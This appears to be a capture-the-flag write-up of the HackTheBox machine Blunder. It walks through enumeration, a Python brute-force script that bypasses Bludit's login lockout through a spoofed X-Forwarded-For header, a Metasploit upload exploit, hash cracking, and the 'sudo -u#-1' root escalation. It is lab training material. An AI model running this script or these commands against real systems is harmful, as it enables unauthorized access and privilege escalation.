 ```yaml
---
title: Writeup - HackTheBox - Blunder
published: true
---
```

This machine from HackTheBox is categorized as an “easy” Linux
machine.
The machine is hosting a website with Bludit CMS version 3.9.2.
The Bludit installation has security flaws that make’s it possible to get a remote shell for the user www-data. Bludit has a parallel installation on the server. From this installation I found a SHA1 hash for the account Hugo. Hugo is a user account on the server as well, and the password from the SHA1 hash is also the password for Hugo’s local account. There is a misconfigured setting for the user Hugo that makes it possible to escalate to root.

## [](#header-2)Enumeration

### [](#header-3)Nmap
I started with an nmap scan to get a list of running services on the machine.
```
Nmap -sC -sV -oA nmap 10.10.10.191
```

![](Pictures/Blunder/nmap.png)

I noticed only two open ports on the system, port 21 and 80. The webserver is hosting a website.

### [](#header-3)Gobuster
Gobuster is a tool that can be used to enumerate a website by
guessing what content is placed on the webserver. I ran the the
following command to start gobuster with one of my built-in
wordlists in Kali Linux:

```
gobuster dir w usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.191/ -x php,html,txt
```

```
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

##### [](#header-5)Todo.txt
The file todo.txt seems to be something that is unusual. The
content of the file is the following:
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images – PENDING
This information might be useful in a later stage.

##### [](#header-5)Robots.txt
The robots file is a file that gives instructions to search
engines such as Google and Bing etc. The instructions might be to exclude content from the website.
Robots.txt on this web server doesn't give any further useful information.

##### [](#header-5)/admin
Visiting http://10.10.10.191/admin in the web browser shows me that this site uses Bludit CMS, and also ask me to login.

## [](#header-2)Exploitation

### [](#header-3)Cewl
At this stage I dont have any credentials to use to login to the
CMS. From the text file todo.txt I got a name, fergus. This is not
enough, I still need some passwords to try login.
Cewl is a tool that indexes a web site with all text and writes it
to a file, one line per word.

```
Cewl -m 5 10.10.10.191 -w cewl.txt
```

This command gives me all text on the website, with minimum 5
chars and saves it to the file cewl.txt. With this information I
can use this to try to login. The cewl.txt has 188 lines so it
will take time to try everyone manually. The Bludit CMS also have
a function that locks out the IP-address, if more than 10 tries
fails.

### [](#header-3)Bludit Brute Force Migitation Bypass
Bludit has a configuration in the file security.class.php that
locks the user out after 10 tries. I found a solution to bypass
this configuration online from a Security Researcher, <a href="https://rastating.github.io/bludit-brute-force-mitigation-bypass/" target="_blank">rastating</a>.
Rastating writes about the problem and also provides a python-
script as a Proof Of Concept. By running a modified version of
this script with the assumption that the valid username is
“fergus”, I was able to find a matching password,
“RolandDeschain”, from the wordlist made by cewl earlier.
Now I was able to use the credentials to log on to the system.

#### [](#header-4)The modified script

```
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
	wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
	session = requests.Session()
	login_page = session.get(login_url)
	csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
login_page.text).group(1)

	print('[*] Trying: {p}'.format(p = password))

	headers = {
		'X-Forwarded-For': password,
		'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',

		'Referer': login_url
	}

	data = {
		'tokenCSRF': csrf_token,
		'username': username,
		'password': password,
		'save': ''
	}

	login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

	if 'location' in login_result.headers:
		if '/admin/dashboard' in login_result.headers['location']:
			print()
			print('SUCCESS: Password found!')
			print('Use {u}:{p} to login.'.format(u = username, p = password))
			print()
			break
```

### [](#header-3)Bludit_upload_images_exec - MetaSploit
There is a vulnerability in the image upload function what in
short terms means that an attacker can upload a malicious payload
file and get remote code execution.
There is a module added to MetaSploit that executes this attack.

![](Pictures/Blunder/metasploit.png)

With this exploit, using the credentials from before, I was able
to get a shell back for the user www-data.

### [](#header-3)SHA1 hash
From the folder /var/www/ I saw that there is another Bludit
installation on the server. Bludit-3.10.0a.

![](Pictures/Blunder/var-www.png)

Inside the folder /var/www/bludit-3.10.0a/bl-content/databases is
a file named users.php. The file contains information about the
user Hugo.

![](Pictures/Blunder/users.png)

The password shown in the picture is the SHA1 hash for the user
Hugo. The hash was cracked and the password is: Password120
I was now able to change user to Hugo.

![](Pictures/Blunder/user.png)

And here is the user.txt flag.

### [](#header-3)Privilege escalation
I did some enumeration to see if Hugo is able to perform commands
as root.

![](Pictures/Blunder/sudo-l.png)

With this knowledge I can use an technique to trick the system
that Im allowed to run bash as root.

```
sudo -u#-1 /bin/bash
```

This gives me a root shell and I was able to get the root.txt
flag.

![](Pictures/Blunder/root.png)
